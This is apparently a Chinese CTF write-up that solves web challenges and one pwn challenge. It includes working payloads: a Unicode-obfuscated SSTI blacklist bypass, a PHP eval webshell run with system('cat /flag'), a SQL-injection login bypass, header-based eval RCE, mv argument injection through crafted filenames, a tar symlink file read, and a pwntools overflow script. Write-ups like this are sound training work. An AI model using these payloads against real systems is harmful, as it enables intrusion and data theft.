

# Web

## 难过的bottle

> 小蓝鲨发明的zip在线解压器有点奇怪
> 

[sad_bottle.py](sad_bottle.py)

分析后端代码可知，路径穿越，路径遍历攻击均不可行，虽存在SSTI漏洞，但黑名单包含了除f,l,a,g以外所有英文字母以及部分特殊符号，几乎无法通过普通方式实现远程代码执行。

模板渲染基于 `bottle` 库，执行python代码依靠内置的 `exec()`函数，且python会将代码通过特定方式转为对应的 ASCII 字符，因此，可以基于这个特性，将代码转换为**花体字**后传给服务器，从而绕过黑名单执行代码。[花体字转换器](https://www.fontgenerator.dev/zh/fancy)



> *此处的 `𝓅𝓇𝒾𝓃𝓉()` 等价于 `print()`*
> 

payload:

```python
{{ℴ𝓅ℯ𝓃('/flag').𝓇ℯ𝒶𝒹()}}
```

写入txt文件内，压缩成zip，上传后查看，即可获得flag。

参考文章：https://blog.meteorkai.top/2025/04/08/bottle%E6%A1%86%E6%9E%B6%E6%96%9C%E4%BD%93%E5%AD%97%E5%BC%95%E5%8F%91%E7%9A%84ssti%E6%A8%A1%E6%9D%BF%E6%B3%A8%E5%85%A5/

## **b@by n0t1ce b0ard**

> 在你以后的 CTF 历程中，你会遇到不少的大型 php 项目审计。  
>
> 然而，大多数情况下，你不一定需要完全自己审计出一个原创的漏洞（0day），而是可以利用已有的漏洞进行攻击（nday）。  
>
> CVE 是这个世界上最大的漏洞数据库。复现 CVE 是每一个 web 手不可或缺的能力。接下来，尝试用好你的 google，去复现一个已经发布的 php 项目漏洞。  
>
> CVE 编号：CVE-2024-12233  
> 

[Online_notice_board.zip](Online_notice_board.zip)

查找 [CVE-2024-12233](https://nvd.nist.gov/vuln/detail/CVE-2024-12233) 的[利用](https://github.com/LamentXU123/cve/blob/main/RCE1.md)，在 Burp Suite 打开 `registration.php`，输入信息后注册，将请求发送至 Repeater，修改请求上传webshell代码。


发送该请求后浏览器打开 `/images/{email}/webshell.php?attack=system("cat%20/flag");` 即可获取flag。

## **flag到底在哪**

> 小蓝鲨部署了一个网页项目，但是怎么403啊，好像什么爬虫什么的
> 

根据题目提示“好像什么爬虫什么的”，推测指的是用于规定搜索引擎爬虫行为的 `robots.txt`文件。访问 `robots.txt` 文件，发现登录页面：


前往 `/admin/login.php` ，根据提示输入用户名 `admin`，尝试SQL注入万能密码： `' OR '1' ='1`，成功登录后台


上传前一题使用的 webshell:

```php
<?php @eval($_GET['attack']);?>
```

打开webshell，尝试 `cat /flag` ，发现无输出，推测可能藏在环境变量里，故使用 `cat /proc/self/environ`，获取flag：


## Who am I

> 小蓝鲨做了一个半成品系统，但似乎很容易获取到敏感信息
> 

注册并登录账号，发现发送到 `/login`端点的 POST 请求携带了一个 `type=1`参数，但这个参数在 HTML 源码中未被定义。将该请求发送到 Repeater，尝试将 `type`改成0，发现服务器返回一个奇怪端点，访问该端点进入管理员模式。


[mian.py](mian.py)

分析 `mian.py`，可知：

1. `GET /impression` 端点传入 `point`参数（长度小于5且不包含黑名单中的特殊符号的文件名）
2. `GET /operate` 端点传入以下参数：
- `username`: `globals()`包含的键名（并非一般意义的“用户名”，其值为 `database`时表示将对用户名密码的字典进行操作）
- `password`: 路径名（ `username` 为 `database` 时，该参数意思为将要操作的用户的**用户名**）
- `confirm_password`: 值（ `username` 为 `database` 时，该参数意思为将要操作的用户的**密码**）

可以利用此端点对 `app`的属性进行操作，修改其 jinja2 模板的检索目录，从而读取 `/flag`的内容。

访问此端点：

```
/operate?username=app&password=jinja_loader.searchpath.0&confirm_password=/
```

访问后，Flask的模板检索路径将改为根目录。

再访问此端点：

```
/impression?point=flag
```

即可获得flag。

*~~这后端代码写的不是一般的史~~*

## ezrce

> 如此ez的rce,补兑，怎么只允许这些？
> 

传入的php代码禁止使用引号，若要传递字符串，可以构造携带php代码的请求头。

首先可通过 `print_r(getallheaders());`确定手动添加的请求头的位置，若在最前面则使用 `current()`，在最后面则使用 `end()`。

payload：

```
/?code=eval(current(getallheaders()));
...
A: system('cat /flag');
```


## mv_upload

> 诶哟我艹这个小蓝鲨怎么这么坏啊，连木马都不让我传
> 
- Hint
    
    你知道的，我一向喜欢白盒审计，这不，小蓝鲨每次用vim出题都习惯设置一个备份，但这回粗心的他还没把备份文件删掉就匆匆上传题目了
    

根据提示“vim备份”，vim的备份文件默认会在文件名最末尾加上一个波浪号，尝试访问 `index.php~`，成功下载到后端源码。

[phpsrc.zip](phpsrc.zip)


第6行可见扩展名黑名单，当服务器检测到这些扩展名的文件试图上传时会拒绝。


第78行可见移动文件的原理：调用 shell 执行命令 `cd /tmp/upload ; mv * /var/www/html/upload 2>&1`。

其中的星号为通配符，其在 shell 中会被展开为当前目录的所有文件名列表。

例如某文件夹下有以下文件：

```
kafuu
chino
```

则 shell 下执行 `mv * /path` 基本相当于 `mv "kafuu" "chino" /path`。

但 shell 在解析参数时存在一个特性：

**对于 `-`或 `--`开头的命令行参数，即使它们被引号包裹，也不会认为这是文件名，而会解析这些命令行参数。**


再看 `mv`命令的帮助信息：

```
用法：mv [选项]... [-T] 源 目标
　或：mv [选项]... 源... 目录
　或：mv [选项]... -t 目录 源...
将 <源> 重命名为 <目标>，或将 <源> 移动至 <目录>。

长选项的必选参数对于短选项也是必选的。
      --backup[=控制]          为每个已存在的目标文件创建备份
  -b                           类似 --backup 但不接受参数
  -f, --force                  覆盖前不询问
  -i, --interactive            覆盖前询问
  -n, --no-clobber             不覆盖已存在的文件
如果您指定了 -i、-f、-n 中的多个，仅最后一个生效。
      --strip-trailing-slashes  去掉每个 <源> 尾部的斜杠
  -S, --suffix=后缀            用 <后缀> 替代通常使用的备份文件后缀
  -t, --target-directory=目录  将所有 <源> 移动至 <目录> 中
  -T, --no-target-directory    将 <目标> 视为普通文件
  -u, --update                 仅在 <源> 比目标文件更新，或者目标文件
                                 不存在时，才进行移动操作
  -v, --verbose                显示详细步骤
  -Z, --context                将目标文件的 SELinux 安全上下文设置为默认类型
      --help        显示此帮助信息并退出
      --version     显示版本信息并退出

备份文件的后缀为 "~"，除非使用了 --suffix 选项或 SIMPLE_BACKUP_SUFFIX 环境变量
指定了其他后缀。版本控制的方式可通过 --backup 选项或 VERSION_CONTROL 环境变量
来选择。以下是可用的设置值：

  none, off       不进行备份（即使使用了--backup 选项）
  numbered, t     使用带有数字编号的备份文件进行备份
  existing, nil   若带数字的备份文件已经存在则使用 numbered，否则使用 simple
  simple, never   总是使用简单方式进行备份

GNU coreutils 在线帮助：<https://www.gnu.org/software/coreutils/>
请向 <http://translationproject.org/team/zh_CN.html> 报告任何翻译错误
完整文档 <https://www.gnu.org/software/coreutils/mv>
或者在本地使用：info '(coreutils) mv invocation'
```

注意到关键参数： `-b`与 `--suffix`。可以使用这种方式，将上传的webshell间接加上 `.php`扩展名，从而实现执行webshell。

首先创建文件 `webshell.p`文件，写入以下内容：

```php
<?php @eval($_GET['attack']);?>
```

并正常上传，移动到存储目录。

然后创建空文件 `-b`与 `--suffix=hp` ，再上传一次 `webshell.p`，然后依次上传 `-b` 和 `--suffix=hp`。


最后的结果应如上图所示，点击上传完毕按钮， `mv`命令会给上传的 `webshell.p`文件名末尾自动加上 `hp`，`upload`文件夹里已经有了可以利用的 `webshell.php`。

打开 `upload/webshell.php?attack=system("cat%20/flag");`，获得flag。 

## **flag？我就借走了**

> 小蓝鲨建了一个资源站，它还很贴心的支持了多种文件格式，甚至能自动解压！小蓝鲨还是太贴心了
> 

发现网站支持解压 tar 文件，tar 的一个特性是能保留符号链接，可利用这个特性上传一个恶意 tar 文件获取 `/flag` 的内容。

使用以下命令：

```bash
ln -s /flag lin
tar czvf payload.tar lin
```

将创建的 `payload.tar`上传，点击 `lin`文件，即可下载 flag。


# Pwn

## 来签个到吧

> 🤠
> 

[sign.zip](sign.zip)

分析 `sign`：


`v4` 大小为 38 个 int，即 `38 * 4 = 152 字节`， `read()`函数读入 `0x3E8 = 1000 字节`，有缓冲区溢出漏洞， `v4[27]` 位于 `27 * 4 = 108 字节`处，在其后写入 `-1378178390` 即可获取shell。


计算可知该数字对应 `0xADDAAAAA`，构造攻击脚本：

```python
from pwn import *

context.binary = './sign'
p = remote('challenge.bluesharkinfo.com', 24223)

payload = b'A' * 108 + p32(0xADDAAAAA)

p.sendlineafter(b"do you like blueshark?\n", payload)
p.interactive()
```

执行后获取shell， `cat flag`获取flag。